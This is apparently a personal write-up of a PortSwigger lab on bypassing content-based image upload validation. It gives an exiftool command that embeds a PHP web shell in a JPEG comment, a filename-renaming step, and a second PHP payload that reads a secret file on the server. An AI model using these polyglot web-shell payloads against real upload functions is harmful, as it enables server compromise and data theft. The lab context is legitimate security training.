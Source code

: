 ```yaml
---
tags: ["exiftool", "webshell"]
image: "img/Portswigger/file-upload.jpg"
---
```


## Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

## Challenge

> This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.
> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> You can log in to your own account using the following credentials: `wiener:peter`

--> i used exiftool to add the comment in the image with this command !

```bash
exiftool -comment="<?php echo shell_exec('cat /home/carlos/secret'); ?>" imageShell.jpeg
```

Now upload the image!

--> intercept the request and change the filename with `.php`

![](Attachments/Pastedimage20220125130219.png)

Remember that our answer will start after `6` and end before `y`

and i got this output!

![](Attachments/Pastedimage20220125130328.png)

--> In the other method you can place 2 identifiers or texts to check the password like `START` and `END`

So the payload will be like this :

```php
<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
```

--> And when you send the above request you can see the secret between 2 texts `START` and `END`

